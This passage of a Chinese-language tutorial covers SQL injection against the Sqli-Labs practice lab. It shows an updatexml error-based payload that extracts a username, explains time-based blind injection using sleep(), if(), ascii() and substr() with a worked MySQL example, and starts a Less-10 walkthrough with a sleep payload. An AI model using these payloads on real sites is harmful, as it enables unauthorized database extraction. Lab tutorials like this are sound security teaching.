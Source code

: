 ![bool43](/images/sqlall/bool43.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and updatexml(1,concat(0x7e,(select username from security.users limit 
1,1),0x7e),1)--+
```

# 三、时间盲注

时间盲注会称为延时注入,利用页面反回结果所用时间来判断注入是否存在和后期注入进行;
延时注入是主要针对页面请求时间变化,无法用布尔真假判断、无法报错的情况下的注入技术.
延时注入作为最精准的注入,但是缺点明显——耗时长要想利用延时注.
延迟注入常见函数：
sleep() //延时
if(condition,true,false) //条件语句
ascii()=ascii码 //转换成ascii码
substr("string",strart,length) //mid()也一样，取出字符串里的第几位开始，长度多少的字符.
原理： 延时注入的原理就是，所要爆的信息的ascii码正确时,产生延时,否则不延时。实例如下所示

![bool45](/images/sqlall/bool45.jpg)

解析：
0、mysql> select if(ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1))=105,sleep(5),1);
1、select schema_name from information_schema.schemata limit 0,1 //取出数据库中第一个数据库,
2、substr(‘string’,1,1) //取出字符串,从第一个字符开始,长度为1,也就是第一个字母/字符
3、ascii(substr())=ascii码 //对字母/字符进行ascii编码并比较;
4、if(step1,1,sleep(5)) //如果第一个ascii编码的条件正确,会执行sleep()出现延时几秒,如果条件错误,则会在结果中输出1,可以看到上图的执行结果;
总结:可以再结合报错注入去猜解服务中数据库、表等信息;当然，延时注入也有不足之处太麻烦,但是较为准确基本能够确定字符;

## 3.1.时间盲注实战

这里采用Sqli-Labs中Less-10的实验来实战测试,为了更能体现出效果所以在延迟注入时,浏览器出现加载信息时出现延迟加载现象,或可以使用Burpsuite工具.

### 3.1.1.访问Less-10

```bash
URL:
http://sqli-labs.me:8888/Less-10/?id=1
```

![bool46](/images/sqlall/bool46.jpg)

#### 3.1.2.尝试双引号测试注入

URL:浏览器出现延时,注意网络稳定性,不然会出现混淆;

```bash
http://sqli-labs.me:8888/Less-10/?id=1" and sleep(5)--+
```
